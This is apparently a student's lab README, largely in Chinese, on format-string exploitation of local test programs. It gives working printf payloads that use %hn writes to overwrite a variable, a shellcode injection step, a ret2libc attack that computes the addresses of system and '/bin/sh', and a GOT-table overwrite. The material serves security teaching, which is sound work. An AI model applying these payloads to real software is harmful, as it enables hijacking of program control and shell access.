

# FormatString-Attack
## Prepare
- Close ASLR `sudo sysctl -w kernel.randomize_va_space=0`
- Close Stack-execute `gcc execstack -o prog1 prog1.c`
## Change var from 0x11223344 0x66887799
>  0x6688(26248) - 44(自带的字符4+4+4+4*8) = 26204\
> 0x7799(30617) – 26248 = 4369

- `echo$(printf"\x36\xed\xff\xbf@@@@\x34\xed\xff\xbf").%.8x.%.8x.%.8x.%.8x.%.26204x%hn%.4369x%hn > input`
- `./prog1 < input | grep -a address`

## Change var from 0x11223344 0xdeadbeef
>  注意 因为0xBEEF小于0xDEAD，因此在BEEF前加1变为1BEEF-DEAD，但在存入高地址的时候因为位数不够1会被省略 \
>  0xdead(57005) – 44 = 56961\
>  0x1beef(114415) – 57005 = 57410

- `echo $(printf"\x36\xED\xFF\xBF@@@@\x34\xED\xFF\xBF")%.8x%.8x%.8x%.8x%.56961x%hn%.57410x%hn > input`
- `./prog1 < input | grep -a address`

## Shellcode hack
>  Ebp = 0xbfffecc8\
> Ret = ebp + 4 = 0xbfffeccc\
> 0xbfffece4 + 0x30 = 0xbfffed24 通过0x90跳板进入shellcode

- `gcc -fstack-protector -z execstack -no-pie -o prog3 prog2.c`
- `python3 exploit.py`
- 进入`shell`

## Ret2lib hack
- `gcc -fstack-protector -z noexecstack -o prog2 prog2.c`
- 观察frame pointer的值得到EBP的地址是`0xbfffecc8`
- `Ldd prog2`查看引用的libc
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`查找system偏移地址
- `strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"`查找”/bin/sh”的偏移地址

- System的偏移地址为`0x0003ada0`，字符串“/bin/sh”的偏移地址为`0x0015b82b`
- `gdb prog2` `b main` `run`  `info proc mappings`
- 可以查看到libc的加载地址为`0xb7d6a000`

- 可以计算system函数的地址为`0xb7d6a000+0x0003ada0 = 0xb7da4da0`
- “/bin/sh”的地址为 `0xb7d6a000 + 0x0015b82b = 0xb7ec582b`
- `echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > input`
- 使用`chmod u+s prog2`，发现仍然不能活得root的权限

## GOT-table hack
- 开启栈随机化`sudo sysctl -w kernel.randomize_va_space=1`
- 编译程序`gcc -fstack-protector -z noexecstack -no-pie -o prog3 prog2.c`
- 并用gdb打开prog3
- 用b win指令找到win函数的位置为`0x8048511`
- 反汇编出fmtstr `b fmtstr` `discass fmtstr`
- 找到输入str的函数对应的地址并disass出来
- 可以看到jmp到一个地址该地址为got表的地址

- `python3 main_3.py`
- 运行prog3得到win
